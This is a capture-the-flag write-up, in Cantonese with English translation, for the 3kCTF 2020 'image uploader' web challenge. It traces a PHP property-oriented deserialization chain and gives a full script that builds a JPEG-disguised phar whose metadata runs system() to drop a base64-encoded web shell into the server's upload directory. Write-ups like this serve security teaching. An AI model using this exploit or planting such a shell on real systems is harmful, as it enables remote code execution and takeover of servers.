


# 3kCTF 2020: image uploader

### (Web, 498 pts, 5 solves)

Description
> challenge

> source

> Author: Dali

## 題解 (Walkthrough)
我知你睇唔明廣東話架啦. 今次有翻譯. 
> I know you don't understand Cantonese. This time got translation.

個 description 得兩條[奸笑5678](https://www.google.com/search?q=goodsmile+5678). 是但啦有醬油有計傾. 
> (Some unimportant gibberish)

一開 `index.php` 就見到 `include('old.php');//todo remove this useless file :\`
> After opening `index.php` then we can see that include stuff...

明眼人一睇就知係伏啦. 一睇兩個 Class 重唔係玩 unserialize. 
> Obviously it is the vulnerable point. It contains 2 classes so obviously it is about unserialize.

碌落 D (唔好譯啦你譯唔到個 D 架啦) 個 index.php 見到 file_get_contents. 條件反射 phar unserialize 
> Scroll down [Don't translate that "D", you can't] that index.php, we can see `file_get_contents`. It immediately links to phar unserialize

有個 `upload.php` 真係可以 upload 野. 不過會 check `getimagesize` 同 `image/jpeg` 
> There is an `upload.php` that can really upload things. But it checks with `getimagesize` and `image/jpeg`.

睇返個 `old.php`, 又係驗眼嘅時間. 最底有個 `$data = "<?php\n//" . sprintf('%012d', $expire) . "\n exit();?>\n" . $data;` 但係無咩用.
> Let's go back to `old.php` and check our eyesight. The bottom `$data = "<?php...` looks interesting but unless.

除非個 `sprintf('%012d', $expire)` 可以整走個 `exit()` 啦. 
> Unless `sprintf('%012d', $expire)` could be used to get rid of that `exit()`.

再碌上 D 見到個詭異嘅 variable function `return $serialize($data);`. 咁開心.
> Scroll up a bit then we can see a weird variable function `return $serialize($data);`. So exciting.

所以如果將 `$this->options['serialize']` 改做 `system` 就可以行 `system`.
> So if we set `$this->options['serialize']` to `system` then we could run `system`.

但係個 `$data` 要點砌呢. 根據所謂 POP 可以 trace 到:
> But how can we control `$data`? According to the so-called Property-Oriented Programming, you can trace like this:

`$this->options['serialize']($data) //cl2->serialize` 

=> `$this->serialize($value) //cl2->set` 

=> `$this->store->set($this->key, $this->getForStorage(), $this->expire); //cl1->save`

=> `return json_encode([$this->cleanContents($this->cache), $this->complete]); //cl1->getForStorage()`

首先個 `$data` 有少少限制. 因為係 `json_encode` 個 Array.
> First, the `$data` is a bit restricted. Because it is constructed by `json_encode`-ing an array.

不過你想用 `system` 行 command 其實可以好求其. 好似咩 `$(ls)`.
> But if you just need to use `system` to execute command, it is pretty flexible. Like using `$(ls)`.

最後可以砌到好似 `system('["$(ls)",0]')`.
> At the end of the day we should be able to construct like `system('["$(ls)",0]')`.

要 trigger `cl1->save`, destructor 個 `$this->autosave` 要 false.
> If you want to trigger `cl1->save`, in the destructor, `$this->autosave` should be false.

依家有齊啲餡啦. 要搵返 phar 個 payload.
> We are cooking with gas. Now we need to get the phar payload.

邊鬼個會記得點寫. 抄返自己個威噏.
> Who the heck will remember how to write the payload. Just copy my own write-up.

https://github.com/ozetta/ctf-challenges/wiki/Envy-(Tangerine)

由 `$p = new Phar('malware.phar');` 果行抄起 (好似係)
> Copy the payload starting from `$p = new Phar('malware.phar');`

上面記得抄返個 Class definition 同埋改晒 D property 佢.
> Remember to copy the class definitions and change the properties to the desired one.

個 `getimagesize` 同 `image/jpeg` 點算? 求其攝個 jpg 向頭咪得囉.
> How to tackle `getimagesize` and `image/jpeg`? Just inject a jpg file in front.

---
## Final payload
```
<?php

class cl1 {
    protected $store;
    protected $key;
    protected $expire;

    public function __construct($store, $key = 'flysystem', $expire = null) {
        $this->key = $key;
        $this->store = $store;
        $this->expire = $expire;
        //add your own properties
        $this->cache = ['$(echo PD89YCRfR0VUWzBdYDs= | base64 -d > /var/www/html/up/z.php)'];
        $this->autosave = 0;
        $this->complete = 0;
    }
}

class cl2 {
    public function __construct(){
    	//add your own properties
    	$this->options['serialize'] = "system";
    	$this->writeTimes = 0;
     	$this->options['prefix'] = '';
     	$this->options['data_compress'] = 0;
    }
}

$x = new cl1(new cl2(),"z",0);
$p = new Phar('malware.phar');
$p->startBuffering();
$p->addFromString("z","");
$j = file_get_contents("1.jpg");
$p->setStub($j."<?php __HALT_COMPILER(); ? >");
$p->setMetadata($x);
$p->stopBuffering();
$file = file('malware.phar');
```

---
之後 upload 個「圖」, 出返個 "filename.jpg". 之後讀 `php://filter/convert.base64-encode/resource=phar:///var/www/html/up/filename`.
> Then upload that "image", will return "filename.jpg". Then access `php://filter/convert.base64-encode/resource=phar:///var/www/html/up/filename`.

之後點玩自己諗啦. 提示: 估下 `PD89YCRfR0VUWzBdYDs=` 係咩先.
> The rest is left as an exercise for the readers. (Hint: decode `PD89YCRfR0VUWzBdYDs=`)


## Remark



~~呢題咁易都搞咗我個半鐘真係失敗。~~



https://twitter.com/confus3r/status/1286850105513930752

慘。早啲起身咪有 First Blood (好似係
